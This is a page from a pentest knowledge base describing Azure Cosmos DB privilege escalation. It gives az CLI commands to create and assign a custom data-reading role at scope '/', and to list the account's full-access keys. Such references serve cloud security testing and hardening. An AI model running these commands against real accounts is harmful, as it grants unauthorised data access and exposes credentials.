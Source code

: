 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

With this permissions you can priviledge scalate giving a user the pemrissions to execute queries and connect to the database. First a definition role is created giving the necesary permissions and scopes.

```bash
az cosmosdb sql role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
      "Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
      "RoleName": "CustomReadRole",
      "Type": "CustomRole",
      "AssignableScopes": [
        "/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
      ],
      "Permissions": [
        {
          "DataActions": [
            "Microsoft.DocumentDB/databaseAccounts/readMetadata",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
          ]
        }
      ]
    }'
```

After that the assigment of the definition is given to a user. After this that user can use the DefaultAzureCredential() connection method to execute queries.

```bash
az cosmosdb sql role assignment create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --role-definition-id <Random-Unique-ID-used-in-definition> \
    --principal-id <principal_id-togive-perms> \
    --scope "/"
```

### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`
With this permission, you can retrieve the primary and secondary keys for an Azure Cosmos DB account. These keys provide full access to the database account and its resources, enabling actions such as data reads, writes, and configuration changes.

```bash
az cosmosdb keys list \
  --name <account_name> \
  --resource-group <resource_group_name>

```


{{#include ../../../banners/hacktricks-training.md}}
